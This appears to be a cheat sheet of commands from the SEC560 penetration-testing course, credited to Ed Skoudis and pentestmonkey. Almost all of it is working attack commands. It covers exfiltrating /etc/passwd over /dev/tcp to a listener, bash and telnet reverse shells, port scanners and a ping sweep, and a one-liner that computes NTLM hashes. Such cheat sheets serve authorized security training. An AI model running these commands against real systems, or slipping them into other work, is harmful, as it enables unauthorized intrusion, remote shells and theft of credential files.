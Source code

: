 # Resources referenced during SEC560 classes


## Day 2

### Netcat without netcat

Check for existence of similar tools:
Gnu Netcat
Ncat
Socat
Linkcat
Nc.py (sometimes called Pycat) http://atlas.r4780y.com/resources/atlasutils-2.2.5.tgz

#### /dev/tcp
File transfers:
Box 1: # nc -nlvp 4444
Box 2: $ cat /etc/passwd > /dev/tcp/10.0.0.1/4444

Reverse shell:
Box 1: # nc -nlvp 8080
Box 2: $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Port scanner ("Connection refused" means port is closed):
Single port:    $ echo > /dev/tcp/10.0.0.1/22
Multiple ports: $ port=1; while \[ $port –lt 1024 ]; do echo > /dev/tcp/\[IPaddr]/$port; \[ $? == 0 ] && echo $port "is open" >> /tmp/ports.txt; port=`expr $port + 1`; done


#### If /dev/tcp can't be used, try telnet
Reverse shell:
Box 1 (where you type commands):   # nc -nlvp 4444
Box 1 (where you view the output): # nc -nlvp 4445
Box 2: $ telnet 10.0.0.1 4444 | /bin/bash | telnet 10.0.0.1 4445



#### Powershell
Ping sweep:
PS C:\> 1..255 | % {ping –n 1 10.10.10.$_ | sls ttl}
1..255 | % {echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}

Port scan:
21..80 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.1",$_)) “Port $_ is open" } 2>$null


## Day 5


Generate NTLM hash if you know the password:
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'





## Credits
Ed Skoudis, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
